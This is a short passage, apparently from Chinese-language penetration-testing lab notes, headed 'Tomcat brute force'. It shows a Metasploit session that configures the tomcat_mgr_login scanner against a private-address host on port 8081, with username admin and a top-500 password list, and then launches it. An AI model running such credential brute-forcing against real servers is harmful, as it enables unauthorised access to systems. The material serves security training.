 ### 7.3 Tomcat爆破

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8081
RPORT => 8081
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOST 192.168.31.51
RHOST => 192.168.31.51
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set PASS_FILE ./top500.txt
PASS_FILE => ./top500.txt
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set USER_FILE ""
USER_FILE => 
msf6 auxiliary(scanner/http/tomcat_mgr_login) > exploit
```

![image-20250319220322180](穷举/image-20250319220322180.png)
